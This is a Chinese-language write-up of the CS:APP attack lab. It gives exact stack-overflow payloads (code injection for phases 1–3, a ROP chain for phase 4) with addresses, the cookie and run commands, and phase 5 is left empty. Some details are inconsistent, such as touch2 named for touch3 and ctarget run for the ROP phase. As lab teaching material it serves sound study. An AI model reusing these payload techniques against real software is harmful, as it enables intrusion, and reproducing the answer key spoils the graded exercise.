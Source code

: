 # lab3 attacklab

准备工作：获取2个目标代码的汇编代码：  
objdump -d ctarget > ctarget.s  
objdump -d rtarget > rtarget.s

## phase 1(code injection level1)

要求：在执行完test()中的getbuf()函数后，不是返回到test()中，而是去执行touch1()函数。  

题解：只需要把栈上面的返回地址覆盖成touch1函数的地址004017c0即可。
但因为小端的问题，所以地址要反过来写：c0 17 40 00

可以看到getbuf函数一开始先给栈分配了40个字节的空间，所以需要把这40个字节填满，再写入地址：
(cl1hex.txt的内容)

41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50 /\* 40个字节 \*/  
c0 17 40 00 /\* touch1()的地址 \*/

运行phase1的操作：  
./hex2raw < cl1hex.txt > cl1raw.txt  
./ctarget -q < cl1raw.txt


## phase2 (code injection ctarget level2)

要求：在执行完test()中的getbuf()函数后，执行touch2()函数，并且需要给touch2()传递一个整型的参数(cookie)

题解：
汇编代码：
sub dif,%rsp #dif还要算, 让rsp指向 touch2的位置
mov 0x59b997fa, %rdi
retq
touch2的地址。
补全40个字节。
返回到 injection code 第一条指令的位置

把栈给画出来即可(注意指令是从下往上执行的，即从地址低的地方 向地址高的地方执行)：

<img src="mdpics/cl2.png" height="290" width="330">

步骤：
1. 把需要用到的命令放在cl2Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl2Draft.s
得到一个目标代码： cl2Draft.o

2. 反汇编 成汇编代码：
objdump -d cl2Draft.o > cl2Binary.s
得到文件 cl2Binary.s

3. 查看cl2Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl2hex.txt中。得到的内容为：

    48 83 ec 24         	/\* sub $0x24(36),%rsp  让rsp指向touch2的地址的位置 \*/  
    48 c7 c7 fa 97 b9 59 	/\* mov 0x59b997fa,%rdi 给touch2传递参数 \*/  
    c3                   	/\* retq \*/  
    ec 17 40 00 00 00 00 00 /\* 函数touch2的地址 现在这里有20个字节 \*/  
    41 42 43 44 45 46 47 48 49 50   
    41 42 43 44 45 46 47 48 49 50 /\* 刚好40个字节 \*/  
    78 dc 61 55               
    /\* 返回的injection code的地址 也就是 第一行命令"sub    $0x24(36),%rsp"的地址 \*/

4. 把 cl2hex.txt 转换成 cl2raw.txt：
./hex2raw < cl2hex.txt > cl2raw.txt

5. 运行程序：
./ctarget -q < cl2raw.txt


# phase3 (code injection level3)
要求：在执行完test()中的getbuf()函数后，执行touch3()函数，并且需要给touch2()传递一个字符串类型的参数(cookie)

和ctarget level2非常类似，但 需要注意 输入的参数变量(字符串cookie)是字符串类型的，所以需要把它放在栈中，并且需要注意这个字符串不能 被后面执行的函数给覆盖。
而把 cookie放在比rsp的地址 更大的地方，就不会被覆盖。

栈的内容：  

<img src="mdpics/cl3.png" height="290" width="330">


步骤：
1. 把需要用到的命令放在cl3Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl3Draft.s
得到一个目标代码： cl3Draft.o

2. 反汇编 成汇编代码：
objdump -d cl3Draft.o > cl3Binary.s
得到文件 cl3Binary.s

3. 查看cl3Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl3hex.txt中。内容为：

    48 83 ec 26     /\* sub    $0x26,%rsp  让rsp指向 存放touch3地址的地方 \*/  
    48 8d 7c 24 08  /\* lea    0x8(%rsp),%rdi  
                    rdi存放的 用户输入的 cookie的位置  
                    为了不被后面的代码overwrite，  
                    必须 放在return address(指向touch3的地址)之后 \*/  
    c3              /\* retq \*/  
    fa 18 40 00 00 00 00 00 /\* touch3的地址 \*/  
    35 39 62 39 39 37 66 61 00   
    /\* 9个字节的 字符串类型的 cookie 0x59b997fa  现在有27个字节 \*/  
    41 42 43 44 45 46 47 48 49 50 41 42 43  
    /\* 刚好40个字节 \*/  
    78 dc 61 55   /\* 返回的injection code的地址 也就是第一行命令"sub $0x24(36),%rsp"的地址 \*/

4. 把 cl3hex.txt 转换成 cl3raw.txt：
./hex2raw < cl3hex.txt > cl3raw.txt

5. 运行程序：
./ctarget -q < cl3raw.txt


# phase4 (return-oriented programming level2)

要求：在使用了随机初始栈长度，以及 不能执行栈位置的内容后，使用ROP来调用touch2()函数。
只能使用movq, popq, ret和nop(0x90)指令

题解：
尽管每次 Gets()完之后，rsp的值都不一样的(随机初始栈的长度)，但 如果每次都填满相同的超过40个字节的内容时，返回时它所指向的地址的内容都是 一样的，即：
print /x *(long *) $rsp 都一样。在这个位置放 要使用的代码的 位置即可。

因为栈中不能放 可执行代码，那么只能通过放入 返回地址，去执行我们希望执行的代码。

首先先观察能用的指令表格，以及提供的能够使用的代码段(farm.cpp)，发现能用的popq指令只有一个，也就是popq %rax (0x58)，那这条指令 必定是需要用到的。

其次，因为需要向touch2()函数传递参数，那么movq S,D指令中的 D需要有%rdi，然后观察 它的源，发现 只有movq %rax, %rdi是可用的。

实际上，这2条指令就够用了：
pop %rax #把栈中 cookie的值给rax  这条指令出现在0x4019ab(注意要加上偏移)中
movq %rax, %rdi #把cookie值 传递给rdi   这条指令出现在0x4019c5中
然后调用touch2()函数即可。  0x4017ec

栈的内容：  

<img src="mdpics/rl2.png" height="310" width="290">

1. 编写文件 rl2hex.txt。内容为：
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50 /\* 刚好40个字节 \*/  
    ab 19 40 00 00 00 00 00 /\* pop %rax的地址 \*/  
    fa 97 b9 59 00 00 00 00 /\* cookie的值 \*/  
    c5 19 40 00 00 00 00 00 /\* mov %rax, %rdi的地址 \*/  
    ec 17 40 00 00 00 00 00 /\* touch2的地址 \*/  

2. 把 rl2hex.txt 转换成 rl2raw.txt：
./hex2raw < rl2hex.txt > rl2raw.txt

3. 运行程序：
./ctarget -q < rl2raw.txt



# phase5 (return-oriented programming level3)






